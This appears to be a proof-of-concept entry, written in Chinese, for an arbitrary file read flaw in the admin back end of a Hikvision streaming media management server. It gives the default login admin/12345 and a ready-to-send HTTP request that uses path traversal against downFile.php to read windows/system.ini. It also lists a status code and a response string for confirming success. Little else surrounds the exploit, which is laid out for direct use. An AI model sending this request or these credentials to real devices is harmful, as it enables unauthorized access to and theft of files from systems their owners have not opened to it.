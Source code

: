 ﻿# HIKVISION 流媒体管理服务器后台任意文件读取漏洞

> 更新时间：2023-12-16

> 漏洞编号：

> 漏洞说明：默认账号密码为 admin/12345

> 漏洞特征：

> 验证脚本：HTTP

```
GET /systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini HTTP/1.1

```

> 响应代码特征：200

> 响应内容特征：support

> 上传文件定位：


> 验证文件来源：HIKVISION 流媒体管理服务器后台任意文件读取漏洞.poc
